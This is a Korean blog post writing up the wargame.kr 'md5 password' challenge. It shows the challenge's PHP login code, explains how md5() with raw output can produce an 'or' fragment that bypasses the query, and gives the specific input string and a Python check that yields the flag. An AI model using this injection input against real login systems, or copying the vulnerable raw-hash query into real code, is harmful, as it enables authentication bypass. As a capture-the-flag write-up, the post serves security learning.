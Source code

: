 ```yaml
---
layout: post
title: ! "[wargame.kr] md5 password"
excerpt_separator: <!--more-->
comments : true
tags:
  - wargame.kr
  - web
  - md5
  - chaem
---
```


md5 password 문제를 보면 다음과 같은 디스크립션을 볼 수 있다.  
<!--more-->
![](/images/chaem/wargame.kr/md5_01.JPG)
```
md5('value', true);
```
md5에 관련된 문제임을 알 수 있다. 문제로 넘어가면 password를 입력하라고 하며, 소스를 보여준다!  
코드를 보면 다음과 같다.  
```php
<?php
 if (isset($_GET['view-source'])) {
  show_source(__FILE__);
  exit();
 }

 if(isset($_POST['ps'])){
  sleep(1);
  mysql_connect("localhost","md5_password","md5_password_pz");
  mysql_select_db("md5_password");
  mysql_query("set names utf8");
  /*

  create table admin_password(
   password char(64) unique
  );

  */

  include "../lib.php"; // include for auth_code function.
  $key=auth_code("md5 password");
  $ps = mysql_real_escape_string($_POST['ps']);
  $row=@mysql_fetch_array(mysql_query("select * from admin_password where password='".md5($ps,true)."'"));
  if(isset($row[0])){
   echo "hello admin!"."<br />";
   echo "Password : ".$key;
  }else{
   echo "wrong..";
  }
 }
?>
<style>
 input[type=text] {width:200px;}
</style>
<br />
<br />
<form method="post" action="./index.php">
password : <input type="text" name="ps" /><input type="submit" value="login" />
</form>
<div><a href='?view-source'>get source</a></div>
```
이 중에서 다음 부분을 보면 md5함수를 사용하고 있는 것을 볼 수 있다.  
```
$row=@mysql_fetch_array(mysql_query("select * from admin_password where password='".md5($ps,true)."'"));
```
일단, php에서 md5함수를 어떻게 사용하는지 먼저 알아보았다.  
```
string md5 ( string $str ,[ bool $raw_output ] )
```
bool $raw_output 값이 true 일 경우 해시의 길이 16인 바이너리 형식으로 반환하고, 이 값을 생략하면 기본값은 false로 우리가 일반적으로 사용하는 md5함수와 같이 해시 값을 출력해준다.  

md5함수를 찾아보다가, md5 함수 취약점이 연관 검색어에 있어서 보게되었는데 [참고블로그](https://bbolmin.tistory.com/77) 요기에 내가 원하는 것이 딱 있었다.  
```
md5("string") -> 32자리의 16진수 값 반환
md5("string", true) -> 16자리의 바이너리 형식으로 반환
```

그리고 이것으로 md5함수를 true로 사용하면 `sql injection`이 가능하다눈 것을 알았다 호호  

그럼 앞에서 보았던 쿼리 문을 보자!  
```
select * from admin_password where password='".md5($ps,true)."'  
```
여기서 password 값에 `'or'`이 들어간다면 injection이 가능하게 된다.  
이 값을 찾는 과정은 [참고블로그](http://cvk.posthaven.com/sql-injection-with-raw-md5-hashes) 여기에서 자세히 설명해 주고 있는 것 같다.  
나는 검색을 통해 찾았다.  
`129581926211651571912466741651878684928`를 입력하면 `'or'` 형태의 결과값을 얻을 수 있다고 한다.   

[참고블로그](https://cc0ma.github.io/wargame.kr-md5_password/) 요기에서 친절하게 python으로 테스트를 해주었는데, 따라해보면 다음과 같다.  
```
ubuntu@ubuntu:~$ python
Python 2.7.12 (default, Nov 12 2018, 14:36:49)
[GCC 5.4.0 20160609] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import hashlib
>>> print hashlib.md5("129581926211651571912466741651878684928").digest()
ٔ0Do#ࠁ'or'8
```
`'or'` 형태인 것을 확인할 수 있었다.  
따라서 `129581926211651571912466741651878684928`를 입력하면 flag를 획득할 수 있다.  
![](/images/chaem/wargame.kr/md5_02.JPG)

